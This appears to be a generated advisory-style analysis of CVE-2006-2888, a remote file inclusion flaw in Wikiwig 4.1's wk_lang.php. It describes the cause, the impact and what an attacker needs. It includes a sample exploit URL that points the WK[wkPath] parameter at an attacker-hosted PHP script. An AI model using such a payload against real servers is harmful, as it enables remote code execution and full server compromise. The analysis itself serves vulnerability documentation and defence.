 Based on the provided content, here's an analysis of CVE-2006-2888:

**Root Cause of Vulnerability:**

*   The vulnerability is a **Remote File Inclusion (RFI)** vulnerability in `wk_lang.php` of Wikiwig version 4.1.

**Weaknesses/Vulnerabilities Present:**

*   The `wk_lang.php` file includes external files based on user-controlled input.
*   The `WK[wkPath]` parameter in the URL is used to specify the path of the file to be included. The application does not properly sanitize or validate this input, allowing an attacker to include remote files.

**Impact of Exploitation:**

*   An attacker can include and execute arbitrary code from a remote server.
*   This can lead to complete compromise of the affected web server and the data it holds.

**Attack Vectors:**

*   The attack is performed via a specially crafted HTTP GET request to the vulnerable `wk_lang.php` script.

**Required Attacker Capabilities/Position:**

*   The attacker needs to be able to send HTTP requests to the vulnerable web server.
*   The attacker needs to have a server where they can host malicious PHP scripts.
*   No authentication or special privileges are required on the vulnerable system to perform the exploit.

**Exploit:**

The exploit can be triggered using a URL such as:
`http://www.site.com/[wikiwig-V4.1]/_wk/wk_lang.php?WK[wkPath]=[evil_scripts]`

where:
*   `www.site.com` is the target server running the vulnerable application.
*   `[wikiwig-V4.1]` is the path to the vulnerable application.
*   `[evil_scripts]` is the URL of a malicious PHP script under the attacker's control.

**Additional Notes:**

*   The provided content is more detailed than a basic CVE description, offering specifics about the vulnerable file, parameter, and a sample exploit URL.

*The content from vupen.com does not contain information about CVE-2006-2888 and is therefore omitted.*